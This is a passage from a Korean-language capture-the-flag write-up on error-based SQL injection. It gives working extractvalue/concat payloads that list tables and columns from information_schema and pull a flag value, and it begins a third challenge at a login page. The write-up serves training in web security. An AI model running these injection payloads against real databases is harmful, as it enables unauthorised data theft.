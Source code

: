 이 데이터베이스 이름을 기반으로, **테이블 → 컬럼 → 플래그 값**까지 순차적으로 추출할 것이다.

```sql
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='errSqli' limit 0,1))) and '1'='1
```

> 테이블 이름: **flagTable**

```sql
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='errSqli' and table_name='flagTable' limit 1,1))) and '1'='1
```

> 컬럼 이름: **idx**, **flag**

**flag 컬럼 데이터 추출**
```sql
' or extractvalue(1,concat(0x7e,(select flag from flagTable limit 0,1)))+and+'1'='1
```

![error flag](/assets/web-screenshots/blind-error-based-sqli/sqli2_flag.png)

**최종적으로 flag까지 얻어내는 데 성공하였다.**

---

### SQL Injection 3 (Error Based SQLI)

![sqli3 home](/assets/web-screenshots/blind-error-based-sqli/sqli3_home.png)

이번 문제는 로그인 화면에서 시작된다.
우선, 문제에서 제공된 계정 정보를 이용해 로그인을 시도해보았다.
